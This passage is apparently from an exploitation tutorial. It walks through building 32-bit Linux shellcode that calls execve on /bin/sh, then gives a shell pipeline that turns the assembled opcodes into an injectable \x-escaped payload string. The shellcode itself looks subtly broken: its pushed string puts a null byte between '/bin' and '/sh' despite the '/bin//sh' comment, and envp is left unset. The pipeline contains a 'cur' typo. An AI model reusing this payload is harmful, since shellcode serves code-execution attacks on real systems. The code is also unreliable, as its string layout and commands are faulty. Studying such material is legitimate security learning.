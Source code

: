 The main part here starts at `push 0x0`. The `execve()` function is just a system call. And it has its standard. Here, you see that the program pushes two zeros into the stack and then pushes the EAX, which is just a pointer to our `/bin/sh`. Then it does `call 10a0 <execve@plt>` which is moves the number of a system call in the EAX register and sends interruption to execute a system call (The CPU switches to kernel mode). 

As this 32-bit syscall table says the standard for an execve system call:
```bash
|-------------eax------ebx-------ecx---edx--|
|sys_execve | 0x0b | filename | argv | envp |
|-------------------------------------------|
``````

In our disassembly code, arguments are pushed onto the stack, but by standard, they can be in registers as above.
After the execve syscall, the stack cleans and a new syscall `exit()` qill execute with 0 as an argument.
Something after that doesn't matter.

Write the shellcode:
```nasm
; nasm -f elf32 dirty-low-level-shellcode.asm
; ld -m elf_i386 dirty-low-level-shellcode.o -o dirty-low-level-shellcode

; push the string '/bin/sh\0
push 0x68732f00
push 0x6e69622f
; move the first argument (/bin//sh) to ebx
mov ebx, esp
; push address of the string
push ebx
; move the second argumetn (argv array) to ecx
mov ecx, esp
; move to eax the number of the syscall
mov eax, 0xb
; do interruption
int 0x80
```

You need to extract opcodes:
```bash
# Assemble the file
nasm -f elf32 dirty-low-level-shellcode.asm
# Link an obj file
ld -m elf_i386 dirty-low-level-shellcode.o -o dirty-low-level-shellcode
# See the opcodes
objdump -d dirty-low-level-shellcode -M intel
```

Here, you don't need to link an obj file, you can disassembly it after assembling and extract the opcodes.
This chain of commands will extract the opcodes in the appropriate view:
```bash
objdump -d dirty-low-level-shellcode.o -M intel | grep '[0-9a-f]:' | grep -v 'file' | cur -f2 -d: | cut -f1-6 -d' '| tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/ˆ/"/'| sed 's/$/"/g'
```
